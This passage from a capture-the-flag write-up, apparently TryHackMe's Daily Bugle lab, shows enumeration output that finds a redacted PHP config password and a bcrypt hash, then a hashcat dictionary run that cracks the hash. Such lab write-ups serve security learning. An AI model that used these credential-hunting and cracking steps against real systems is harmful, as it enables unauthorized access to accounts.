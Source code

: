 ```sh
[+] Last time logon each user
Username         Port     From             Latest                                                                                 
root             pts/0    netwars          Mon Dec 16 05:11:46 -0500 2019
jjameson         pts/0    netwars          Mon Dec 16 05:14:55 -0500 2019

[+] Password policy
PASS_MAX_DAYS   99999                                                                                                             
PASS_MIN_DAYS   0
PASS_WARN_AGE   7
ENCRYPT_METHOD SHA512

[+] Searching passwords in config PHP files
        public $password = '{REDACTED}';   

[+] Searching specific hashes inside files - less false positives (limit 70)

/var/www/html/libraries/vendor/ircmaxell/password-compat/lib/password.php:$2y$04$usesomesi{REDACTED}8K30oukPsA.ztMG 

```

We can crack that hash but not sure it is anything useful:

```sh
┌──(kali㉿kali)-[~/Documents/THM/dailyBugle]
└─$ hashcat -m3200 -a0 hash2.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-AMD Ryzen 7 3800X 8-Core Processor, 10871/10935 MB (4096 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$04$use{REDACTED}oG8K30oukPsA.ztMG:{REDACTED}
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
```